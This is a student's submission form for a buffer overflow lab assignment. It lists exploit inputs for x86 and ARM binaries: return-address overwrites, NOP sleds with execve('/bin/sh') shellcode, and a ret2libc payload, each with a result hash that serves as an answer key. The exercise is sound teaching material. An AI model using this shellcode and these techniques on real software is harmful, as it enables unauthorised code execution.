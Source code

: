 # Submission form

Name: Kunal Mukherjee
NetID: kxm180046

## x86

### Part 1

* Input 

AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH\xdb\x85\x04\x08

* Hash

ab2b3751d7c03ad34660be0ba7f2fa42

### Part 2

* Input

```
import struct
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH"
eip = struct.pack("I",  0xffffcf30) # submissionVM x86 # use strace -e raw=read 
nopslide = "\x90"*1000
payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
s = padding+eip+nopslide+payload
print (s)
```

* Hash

10467e5e194180c70c9f4f07fa7150f1

###  Part 3

* Input

```
import struct
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH"
system = struct.pack("I", 0xf7e1a250) # 0xf7e18250) # addr libc
return_after_system = "AAAA"
eip = struct.pack("I", 0xf7f5b3cf) # 0xf7f593cf) # addr "/bin/sh"
s = padding + system + return_after_system + eip
print (s)
```

* Hash

e4a984bd2e5058a317d0979d76106a75

## ARM 

### Part 1

* Input

\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x42\x42\x42\x42\x42\x42\x42\x42\xa0\x05\x01\x00

* Hash

ad9ed34a9bd958c558157c91b37504b4

###  Part 2

* Input

```
padding = "AAAAAAAAAAAAAAAABBBBBBBB"
eip = struct.pack("I", 0xbeffefb8) # submissionVM arm
nopslide = "\x90"*4000 #submissionVM arm
payload = "\x01\x30\x8f\xe2\x13\xff\x2f\xe1" + "\x03\xa0\x52\x40\xc2\x71\x05\xb4" + "\x69\x46\x0b\x27\x01\xdf\x7f\x40" + "\x2f\x62\x69\x6e\x2f\x73\x68\x41"
s = padding+eip+nopslide+payload
print(s)
```
* Hash

5fdefc407d56d4c381ff621149fa5a7b

### Part 3

* Input

<input for part1>

* Hash

<hash from /home/assign0x2-p3/solve>


